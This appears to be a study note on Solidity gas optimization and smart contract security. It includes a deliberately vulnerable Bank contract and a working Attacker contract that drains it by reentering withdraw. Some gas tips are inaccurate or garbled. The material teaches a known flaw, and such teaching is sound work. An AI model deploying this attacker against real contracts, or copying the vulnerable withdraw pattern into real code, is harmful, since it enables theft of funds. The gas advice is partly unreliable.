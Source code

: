 # Smart contract gas optimization

- uint8 saves gas than uint256

- Avoid loops

- Since, there are no floating points in solidity, use decimals to handle it. Beware that in division, Num>Den

- public state variables consume gas

- Extra text in return consumes gas 

- Events can be used to read variables which are only needed to be read by developer, not the user







# Smart contract security

- Use CEI withdrawal pattern(Check, Effects and Interaction) to prevent reentrancy

- block.timestamp can be manipulated by miners since they can change order of transactions. It is therefore recommended that instead we should use external time oracles

## What is reentrancy ?

Its calling any function of a smart contract while that function is being called. 

Mostly this function is the withdraw function. 

## Suppose there is a bank account smart contract which is vulnerable 

//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract Bank {
    using Address for address payable;

    mapping(address => uint256) public balanceOf;

    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 depositedAmount = balanceOf[msg.sender];
        payable(msg.sender).sendValue(depositedAmount);
        balanceOf[msg.sender] = 0;
    }
}


## Now the attacker can make a smart contract to attack the bank smart contract which calls the deposit and withdraw functions simultaneously. And it keeps recieving the funds till the balance of the bank is exhausted 

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/Ownable.sol";

interface IBank {
  function deposit() external payable;
  function withdraw() external;
}

contract Attacker is Ownable {
  IBank public immutable bankContract;

  constructor(address bankContractAddress) {
    bankContract = IBank(bankContractAddress);
  }

  function attack() external payable onlyOwner {
    bankContract.deposit{ value: msg.value }();
    bankContract.withdraw();
  }

  receive() external payable {
    if (address(bankContract).balance > 0) {
      bankContract.withdraw();
    } else {
      payable(owner()).transfer(address(this).balance);
    }
  }
}


## How is the reentrancy done in this case ?




